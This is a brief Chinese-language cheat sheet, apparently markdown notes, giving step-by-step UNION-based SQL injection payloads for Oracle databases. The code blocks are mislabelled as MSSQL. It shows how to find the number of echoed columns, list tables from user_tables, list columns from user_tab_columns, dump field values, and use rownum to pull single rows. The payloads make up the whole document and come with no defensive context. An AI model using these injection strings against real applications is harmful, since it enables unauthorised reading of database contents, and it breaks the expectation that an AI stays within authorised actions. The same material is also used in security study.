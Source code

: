 1. 查询当前数据库字段，查看回显点

   ```mssql
   order by n
   union all select null,null,null,null from user_tables 
   ```

2. 查询当前数据库(表)（oracle弱化了库，强调用户）

   ```mssql
   union all select null,table_name,null,null from user_tables 
   ```

3. 查询当前数据表中字段

   ```mssql
   union all select null,column_name,null,null from user_tab_columns where table_name = '表名'
   ```

4. 查询数据

   ```
   union all select null,null,null,字段名 from 表名
   ```

5. 只允许输出一条数据的

   > 模拟limit

      ```mssql
      union all select null,null,null,字段名 from (select rownum as r, 字段名 from 表名) where r=1
      ```

   > 查询结果去掉没用的<br>

      ```mssql
      union all select null,null,null,字段名 from 字段名 where 字段名<>数据 and 字段名<>数据
      ```